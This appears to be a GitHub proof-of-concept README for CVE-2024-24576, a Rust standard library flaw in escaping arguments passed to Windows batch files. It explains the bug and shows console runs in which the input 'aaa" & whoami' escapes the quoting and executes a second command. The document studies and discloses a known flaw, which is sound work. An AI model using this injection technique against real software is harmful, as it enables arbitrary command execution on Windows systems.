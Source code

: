 # CVE-2024-24576 PoC


The ```Command::arg``` and ```Command::args``` APIs state in their documentation that the arguments will be passed to the spawned process as-is, regardless of the content of the arguments, and will not be evaluated by a shell. This means it should be safe to pass untrusted input as an argument.

On Windows, the implementation of this is more complex than other platforms, because the Windows API only provides a single string containing all the arguments to the spawned process, and it's up to the spawned process to split them. Most programs use the standard C run-time argv, which in practice results in a mostly consistent way arguments are splitted.

One exception though is cmd.exe (used among other things to execute batch files), which has its own argument splitting logic. That forces the standard library to implement custom escaping for arguments passed to batch files. Unfortunately it was reported that our escaping logic was not thorough enough, and it was possible to pass malicious arguments that would result in arbitrary shell execution.


Running the main.rs file with the following payloads give 

```
C:\Users\frost\testing>cargo run
   Compiling testing v0.1.0 (C:\Users\frost\testing)
    Finished dev [unoptimized + debuginfo] target(s) in 0.49s
     Running `target\debug\testing.exe`
enter payload here
aaa
Output:
Argument received: aaa
```

```
C:\Users\frost\testing>cargo run
    Finished dev [unoptimized + debuginfo] target(s) in 0.01s
     Running `target\debug\testing.exe`
enter payload here
aaa & whoami
Output:
Argument received: "aaa & whoami"
```

```
C:\Users\frost\testing>cargo run
    Finished dev [unoptimized + debuginfo] target(s) in 0.01s
     Running `target\debug\testing.exe`
enter payload here
aaa" & whoami
Output:
Argument received: "aaa\"
desktop-8j2vk8b\frost
```

Note the escaped argument with the " whoami

NOT MY FINDING!

Sources:
https://github.com/rust-lang/rust/security/advisories/GHSA-q455-m56c-85mh
https://www.bleepingcomputer.com/news/security/critical-rust-flaw-enables-windows-command-injection-attacks/
